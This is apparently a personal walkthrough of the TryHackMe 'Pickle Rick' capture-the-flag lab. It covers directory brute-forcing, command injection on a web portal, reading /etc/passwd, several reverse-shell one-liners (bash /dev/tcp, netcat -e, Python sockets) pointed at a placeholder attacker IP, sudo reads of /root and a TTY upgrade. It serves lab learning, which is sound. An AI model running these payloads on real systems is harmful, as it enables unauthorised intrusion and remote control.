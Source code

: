 🥒 TryHackMe - Pickle Rick CTF Walkthrough
https://img.shields.io/badge/TryHackMe-Pickle%2520Rick-red
https://img.shields.io/badge/Difficulty-Easy-green
https://img.shields.io/badge/Category-CTF-blue
https://img.shields.io/badge/OS-Linux-orange

Solved By: Prince 👑
Date: 2025-10-07
Platform: TryHackMe

📋 Table of Contents
Executive Summary

Attack Flow

Reconnaissance

Directory Enumeration

Initial Access

Reverse Shell

Privilege Escalation

TTY Shell Upgrade

Completion Summary

🎯 Executive Summary
This CTF walkthrough demonstrates a complete web application penetration test on the Pickle Rick machine. The engagement involved reconnaissance, directory brute-forcing, command injection, reverse shell establishment, and privilege escalation to recover three secret ingredients.

🔍 Attack Flow Overview
graph TD
    A[Reconnaissance] --> B[Directory Brute Force]
    B --> C[Clue Discovery]
    C --> D[Command Injection]
    D --> E[Reverse Shell]
    E --> F[Flag Hunting]
    F --> G[Privilege Escalation]
    G --> H[All Ingredients Recovered]
    🕵️ Reconnaissance
Step 1: Manual Browsing
Visited target URL http://MACHINE-IP

Analyzed page source for hidden hints

Discovered potential usernames and clues

Step 2: Directory Brute Force
Used Gobuster for comprehensive directory enumeration:

bash
gobuster dir -u http://MACHINE-IP -w ./wordlists/common.txt -x .txt,.php,.html -t 50
Parameters Explained:

-w: Wordlist path

-x: File extensions to search

-t: Threads for faster scanning

Step 3: Automated URL Testing (PowerShell)
Created PowerShell script for quick endpoint verification:

powershell
param ([string]$Url)
$paths = @("robots.txt", "clue.txt", "admin", "login.php")
foreach ($path in $paths) {
    $target = "$Url/$path"
    try {
        $res = Invoke-WebRequest -Uri $target -UseBasicParsing -ErrorAction Stop
        if ($res.StatusCode -eq 200) {
            Write-Host "$path exists!" -ForegroundColor Green
        }
    } catch {
        Write-Host "$path not found." -ForegroundColor DarkGray
    }
}
Execution:

powershell
.\Test-URLs.ps1 -Url http://MACHINE-IP/
📊 Scan Results:

text
/index.html           (Status: 200)
/login.php            (Status: 200)
/portal.php           (Status: 302)
/robots.txt           (Status: 200)
robots.txt exists!
clue.txt exists!
login.php exists!
🔎 Clue Investigation
Discovered Files:
robots.txt: Contained Wubbalubbadubdub

clue.txt: Provided additional hints

login.php: Authentication portal

🚪 Initial Access
Command Injection Testing
Once logged into portal.php, tested command execution:

Basic Commands:

bash
ls
whoami
Chained Commands:

bash
ls; whoami
cat /etc/passwd
🐚 Getting a Reverse Shell
Step 1: Listener Setup (Windows)
powershell
ncat.exe -lvnp 4444
Step 2: Reverse Shell Payloads
Bash Reverse Shell:

bash
bash -i >& /dev/tcp/YOUR-IP/4444 0>&1
URL Encoded Version:

bash
bash%20-i%20%3E%26%20/dev/tcp/YOUR-IP/4444%200%3E%261
Netcat Alternative:

bash
nc YOUR-IP 4444 -e /bin/bash
Python Reverse Shell:

python
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("YOUR-IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash"])'
Step 3: Successful Connection
powershell
PS C:\Temp> ncat.exe -lvnp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from MACHINE-IP:PORT.
🔍 Privilege Escalation & Flag Hunting
Shell Stabilization
bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ingredient 1 Discovery
bash
www-data@ip-10-10-81-100:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
Ingredient 2 Discovery
bash
www-data@ip-10-10-81-100:/var/www/html$ cd /home/rick
www-data@ip-10-10-81-100:/home/rick$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019  .
drwxr-xr-x 4 root root 4096 Feb 10  2019  ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 'second ingredients'
www-data@ip-10-10-81-100:/home/rick$ cat "second ingredients"
1 ????? ????
Ingredient 3 Discovery
bash
www-data@ip-10-10-81-100:/home/rick$ cd /
www-data@ip-10-10-81-100:/$ sudo ls -la /root
total 36
drwx------  4 root root 4096 Jul 11  2024 .
drwxr-xr-x 23 root root 4096 Apr 21 13:30 ..
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
www-data@ip-10-10-81-100:/$ sudo cat /root/3rd.txt
3rd ingredients: ????? ?????
⚡ Bonus: Upgrade to Full TTY
Shell Enhancement Process
bash
# Inside reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Press CTRL-Z

# In your terminal
stty raw -echo; fg

# Press Enter, then:
export TERM=xterm
clear
Benefits of TTY Upgrade:

✅ Tab completion

✅ CTRL+C functionality

✅ Better prompt

✅ Improved shell experience

🏆 Completion Summary
Skills Practiced:
✅ Manual & automated reconnaissance

✅ HTML source code analysis

✅ Directory brute-forcing

✅ Web command injection

✅ Reverse shell establishment

✅ Linux privilege escalation

✅ File system enumeration

Ingredients Recovered:
First Ingredient: Found in web directory

Second Ingredient: Located in /home/rick

Third Ingredient: Secured in /root directory

